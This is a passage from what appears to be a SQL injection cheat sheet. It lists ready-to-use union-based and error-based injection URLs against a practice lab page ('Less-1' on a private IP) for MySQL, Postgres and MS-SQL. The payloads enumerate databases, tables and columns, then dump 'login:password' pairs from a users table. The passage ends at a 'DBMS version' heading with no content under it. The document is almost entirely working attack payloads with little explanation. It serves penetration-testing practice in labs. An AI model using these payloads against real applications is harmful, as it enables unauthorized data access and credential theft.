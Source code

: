 
#### Finding database name

`http://192.168.1.104/Less-1/?id=-1 union select 1,2, database()` **mysql**

`http://192.168.1.104/Less-1/?id=-1 union select NULL,NULL, database()` **postgres**


#### Finding usernames logged in

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, current_user()` **mysql**


#### Finding databases

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, schema_name from information_schema.schemata` **mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, datname from pg_database` **postgres**


#### Finding table names from a database

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, table_name from information_schema.tables where table_schema="database_name"` **mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, tablename from pg_tables where table_catalog="database_name"` **postgres**


#### Finding column names from a table

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_schema="database_name" and table_name="tablename"` **mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_catalog="database_name" and table_name="tablename"` **postgres**

#### Concatenate

Example:

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, login from users;`
`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, password from users;`

in one query

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, concat(login,':',password) from users;` **mysql**
`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, login||':'||password from users;` **postgres**


### Error Based SQLI (USUALLY MS-SQL)

#### Current user

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(user_name() as varchar(4096)))--`


#### DBMS version
